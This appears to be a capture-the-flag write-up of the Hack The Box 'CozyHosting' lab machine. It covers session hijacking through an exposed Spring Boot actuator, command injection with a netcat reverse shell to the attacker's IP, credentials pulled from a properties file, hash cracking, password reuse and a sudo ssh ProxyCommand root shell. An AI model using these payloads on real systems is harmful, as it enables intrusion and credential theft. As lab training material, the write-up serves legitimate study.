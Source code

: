 Tags: #Linux/Ubuntu #Easy #Nginx #Spring-Boot #Session-Hijacking #Information-Disclosure #Command-Injection #Hardcoded-Creds #Weak-Passwords #Sudo-Misconfiguration 
# **Nmap Results**

```text
Nmap scan report for 10.10.11.230
Host is up (0.019s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 43:56:bc:a7:f2:ec:46:dd:c1:0f:83:30:4c:2c:aa:a8 (ECDSA)
|_  256 6f:7a:6c:3f:a6:8d:e2:75:95:d4:7b:71:ac:4f:7e:42 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://cozyhosting.htb
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.61 seconds
```
<br>
<br>

# **Service Enumeration**
First look at the site:

![[Pasted image 20250624134651.png]]

Feroxbuster discovers the page **/error** that returns a 500 Internal Server Error, but looking at it from the browser, something's different:

![[Pasted image 20250624134928.png]]

It says "Whitelabel Error Page" instead. A quick google search of this error message reveals the back end framework to be **Spring Boot**.

Initially, Feroxbuster didn't find anything, but we can download a wordlist tailored for spring boot and run it again to see if anything is exposed. I'll use [this one](https://github.com/emadshanab/DIR-WORDLISTS/blob/main/spring-boot.txt)

![[Pasted image 20250624135527.png]]

**/actuator** looks interesting. Let's take a look:

![[Pasted image 20250624135632.png]]

**/actuator/sessions** contains a cookie for a user that's already logged in:

![[Pasted image 20250624135802.png]]

Using dev tools, paste this in and head to **/admin**:

![[Pasted image 20250624142123.png]]

At the bottom, you can fill out SSH information and it will try to connect to that machine. There ends up being a **Command Injection** vulnerability in the Username parameter, which we will exploit using burp.
<br>
<br>
# **Exploitation**
## **Initial Access**
Intercept the request after hitting the Submit button and send it to the repeater:

![[Pasted image 20250624142503.png]]

The format for an SSH command is `ssh user@hostname`. We're injecting into the user field.

When trying `test@localhost; whoami`, the server responds with "Username can't contain whitespaces!", so we have to use URL encoded tab characters ("\t")

Inject a reverse shell payload: `busybox nc 10.10.14.14 9001 -e sh`:

![[Pasted image 20250624143600.png]]

A shell was returned after sending the request:

![[Pasted image 20250624143538.png]]

There's a Java .jar file in the directory we landed in. Copy to your system for analysis:

![[Pasted image 20250624144106.png]]

Extract the archive using 7z

Now run `find . -name *.properties` to find property files that could contain useful information. There are 2 results:

```
./BOOT-INF/classes/application.properties
./META-INF/maven/htb.cloudhosting/cloudhosting/pom.properties
```

Contents of the first one:

```
server.address=127.0.0.1
server.servlet.session.timeout=5m
management.endpoints.web.exposure.include=health,beans,env,sessions,mappings
management.endpoint.sessions.enabled = true
spring.datasource.driver-class-name=org.postgresql.Driver
spring.jpa.database-platform=org.hibernate.dialect.PostgreSQLDialect
spring.jpa.hibernate.ddl-auto=none
spring.jpa.database=POSTGRESQL
spring.datasource.platform=postgres
spring.datasource.url=jdbc:postgresql://localhost:5432/cozyhosting
spring.datasource.username=postgres
spring.datasource.password=Vg&nvzAQ7XxR
```

Credentials for a PostgreSQL database are at the bottom, and it runs on port 5432. 

Log in to PostgreSQL using these creds with `psql -U postgres -h localhost -p 5432`. It will prompt for password

List databases using `\l+`. We want to connect to the **cozyhosting** one, so log out and log back in with the `-d cozyhosting` option.

List tables and their schema with `\dt`, the users table probably contains useful information.

`SELECT * FROM users;` gives us the password hash to **admin** and **kanderson**:

![[Pasted image 20250624160238.png]]

Hashes.com says the hash type for both is bcrypt.

Hashcat was able to crack admin's password and found it to be `manchesterunited`. It failed to find kanderson's. 

Aside from app, there's another user named **josh**. Admin's password ended up being Josh's password for SSH 
<br>
<br>
# **Privilege Escalation**  
Output of `sudo -l`:

![[Pasted image 20250624161647.png]]

Josh can run `ssh` as root with any arguments he wants. 

According to this [GTFObins](https://gtfobins.github.io/gtfobins/ssh/) page, if you execute `sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x`, a root shell will spawn automatically

> [!info] SSH Payload Explained
>This payload abuses the **ProxyCommand** option to force SSH to spawn a privileged shell. Normally, this option is used when direct SSH access to a remote machine isn't allowed. Clients would set this flag to another command (usually ssh) that routes a connection through an intermediary server, and then to the target. In order for the routing path to be set properly, the proxy command has to execute before attempting the real connection the client wants
>
>In this case, instead of the command being ssh, it's a shell with root privileges (because of sudo) and proper I/O redirection so you can interact with it from the terminal. SSH then tries to connect to host "x", but fails because it's not an actual host. That doesn't matter though because we just need a shell
<br>
<br>
# Skills Learned
* A Java JAR file can contain useful information. To find out, exfil it to your system, extract the archive contents, and look through it. Property files are a potential source of info. To see if there are any, run `find . -name *.properties`. 
<br>
<br>
# Proof of Pwn
https://www.hackthebox.com/achievement/machine/391579/559